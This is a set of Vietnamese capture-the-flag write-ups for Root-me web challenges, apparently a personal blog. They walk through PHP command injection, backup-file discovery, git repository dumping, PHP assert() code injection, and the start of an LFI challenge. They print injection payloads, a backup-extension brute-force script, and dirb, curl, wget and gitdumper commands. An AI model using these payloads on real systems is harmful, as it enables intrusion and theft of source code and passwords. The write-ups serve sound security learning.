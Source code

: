 [Root-me] PHP - Command injection

Đây là thử thách command injection, biểu mẫu cho phép nhập đầu vào là địa chỉ IP và ping để kiểm tra kết nối. Bằng cách nào đó nhập vào văn bản bên dưới form:

```
127.0.0.1;ls
```

chúng ta có kết quả trả về của lệnh ping và ls.

Vì ở đây đầu vào do người dùng không được filter nên ta có thể thêm bất kì câu lệnh nào

``` 
google.com;php -s index.php
```

ping được thực hiện một lần nữa kèm theo source của PHP được hiển thị highlight cùng với flag (thực ra thì các bạn có thể lấy flag bằng cách view source code)

![](D:\rootme\php-commandinjection\xacMinhMien.png)

FLAG: ...

Attachments: https://owasp.org/www-community/attacks/Command_Injection



====================================================

[Root-me] Backup file

Description: These files are generated automatically 

Solution:

Chúng ta phải khôi phục bản sao lưu của tệp duy nhất hiện tại là index.php để sử dụng mã nguồn của nó và khôi phục lại mật khẩu.

C1: các bạn có thể tạo một tệp exp.py để tự động hóa việc tìm kiếm các file sao lưu.

``` python
import urllib.request

#python3 
#thiết lập một danh sách các phần mở rộng tương ứng với các tệp sao lưu 
list=[".backup",".bck",".old",".save",".bak",".sav","~",".copy",".old",".orig",".tmp",".txt",".back",".bkp",".bac",".tar",".gz",".tar.gz",".zip",".rar"]
 
#tìm các bản sao lưu của tệp 'index'
fichier ="index"
 
#chỉ định máy chủ
hote = "http://challenge01.root-me.org/web-serveur/ch11/"
 
#xem xét mọi phần mở rộng có thể có 
for item in list:
 
   try:
        #tạo chuỗi 'url' tương ứng với url của tệp + phần mở rộng để kiểm tra 
        url = hote + "" + fichier + "" + ".php" + item
        #thiết lập một kết nối 
        result=urllib.request.urlopen(url)
        print (f'{url} + " Code : " + {str(result.getcode())}')
 
   #Cho phép bạn quản lý lỗi 404 trong quá trình kết nối
   except urllib.request.HTTPError as e:
        if e.code == 404:
            print (f'{url}+" Code :  " + {str(e)}')
        else:
            print (f'{url}+" Code :  " + {str(e)}')
```

C2:  Phần mềm dirb trên kali linux cho phép tấn công từ điển vào url

```
dirb http://challenge01.root-me.org/web-serveur/ch11/index.php  /usr/share/wordlists/dirb/mutations_common.txt -t
```

- Đường dẫn “`/usr/share/wordlists/dirb/mutations_common.txt`” là của một từ điển mở rộng sao lưu, được hiển thị theo mặc định trên kali. 
- "-t" cho biết dirb không thêm "`/`" vào cuối url

Sau đó nhận được kết quả trả về dạng:

![image-20210901163308240](C:\Users\ADMIN\AppData\Roaming\Typora\typora-user-images\image-20210901163308240.png)

Mình sử dụng curl để get file:

```
curl --url http://challenge01.root-me.org/web-serveur/ch11/index.php~
```

Sau khi có được username và password login vào xuất hiện thông báo dùng passwd để bypass thử thách.



========================================================================



[Root-me] Insecure Code Management

*Description*: Protect the source code management server? 

*States*: Recover the password (in clear) for the admin account. 

Từ hint có thể thấy đây là lỗ hổng quản lí mã nguồn không an toàn, mình nhanh chóng suy ra rằng cần một kho lưu trữ git.

Tải xuống các tệp bằng wget:

``` 
wget mirror http://challenge01.root-me.org/web-server/ch26/.git
```

Khi đã định vị trong thư mục chứa thư mục .git chúng ta có thể truy xuất thông tin về mã nguồn bằng lệnh `git checkout`

output cho kết quả: 

![](D:\rootme\insecure source code\list.png)

Từ `git log` có thể thấy các commit cũ, có 1 commit khá thú vị về changed password:

```
$ git log
commit c0b4661c888bd1ca0f12a3c080e4d2597382277b (HEAD -> master)
Author: John <john@bs-corp.com>
Date:   Fri Sep 27 20:10:05 2019 +0200

    blue team want sha256!!!!!!!!!

commit 550880c40814a9d0c39ad3485f7620b1dbce0de8
Author: John <john@bs-corp.com>
Date:   Mon Sep 23 15:10:07 2019 +0200

    renamed app name

commit a8673b295eca6a4fa820706d5f809f1a8b49fcba
Author: John <john@bs-corp.com>
Date:   Sun Sep 22 12:38:32 2019 +0200

    changed password

commit 1572c85d624a10be0aa7b995289359cc4c0d53da
Author: John <john@bs-corp.com>
Date:   Thu Sep 12 11:10:06 2019 +0200

    secure auth with md5

commit 5e0e146e2242cb3e4b836184b688a4e8c0e2cc32
Author: John <john@bs-corp.com>
Date:   Thu Sep 5 11:10:15 2019 +0200
```



từ đây ra được flag...

![](D:\rootme\insecure source code\pass.png)

Flag: {co_lam_moi_co_an_hihi}

ps: Các bạn cũng có thể dùng công cụ nikto hoặc gitDumper để giải quyết thử thách.

``` 
$ ./gitdumper.sh http://challenge01.root-me.org/web-serveur/ch61/.git/ repo
```

Nhận các commit: 

```
cd repo/ && git log --graph
```

Go back in time: 

```
$git reset --hard
$cat config.php
```

Go back in time một lần nữa để thấy flag:

```	
$git checkout a8673b295eca6a4fa820706d5f809f1a8b49fcba
```



============================================================================



[Root-me] PHP - assert()

*Hint*: Find and exploit the vulnerability to read the .passwd file. 

Như đề bài cho hint liên quan đến assert(). Hàm assert() kiểm tra chuỗi được truyền vào dưới dạng tham số và phát hiện lỗi login, nếu biểu thức đầu vào có giá trị là false, hàm assert() sẽ in ra thông báo lỗi, nếu không chương trình tiếp tục thực thi như thường. Vì vậy mình đã thử payload như sau:

```
?page='xxx'
```

Nhận được thông báo lỗi: 

```
Parse error: syntax error, unexpected 'xxx' (T_STRING) in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'xxx'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8
```

Qua thông báo lỗi mình bắt đầu hình dung ra ý tưởng inject command. Thử một loạt các kiểu chèn mình thấy rằng có thể thực thi mã bằng cách nối các dấu ngoặc kép. Ý tưởng là thử với hàm system(). Hàm system() là chạy một chương trình bên ngoài và hiển thị kết quả. Cú pháp như sau: system("command")

Do đó mình có thể hiển thị thông tin trước khi đưa ra thông báo lỗi.

```
'.system("ls -la").'
```

Bingo. Thông tin về các tập lệnh đã được hiển thị, trong đó có file ".passwd"

Bước còn lại khá đơn giản rồi, cat file đó ra và nhận được flag.



=============================================================================



[Root-me] PHP - filter

States:

Find the "administrator" password for thi application

Như tittle đề bài thì đây vẫn là một thử thách LFI, nhưng khác ở cái là có filter. 

